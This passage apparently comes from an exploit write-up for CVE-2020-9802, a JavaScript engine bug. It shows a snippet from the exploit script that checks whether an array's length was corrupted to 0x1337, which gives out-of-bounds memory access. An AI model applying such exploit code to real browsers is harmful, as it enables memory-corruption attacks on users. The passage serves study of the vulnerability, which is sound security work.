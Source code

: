 ![](/assets/img/posts/cve-2020-9802/cve-2020-9802-corrupt.png)

`float_arr` can now index 4919 elements, 4912 of them out of the original
bound.  

For debugging purposes, the following snippet performs sanity checks and exits
in case of errors.

```javascript
[...]
 95 // check that the oob actually worked
 96 if (float_arr.length == 0x1337) {
 97     print("[+] length corruption succeeded")
 98 } else {
 99     print("[-] length corruption failed, length: " + float_arr.length)
100     throw "oob not working"
101 }
[...]
```
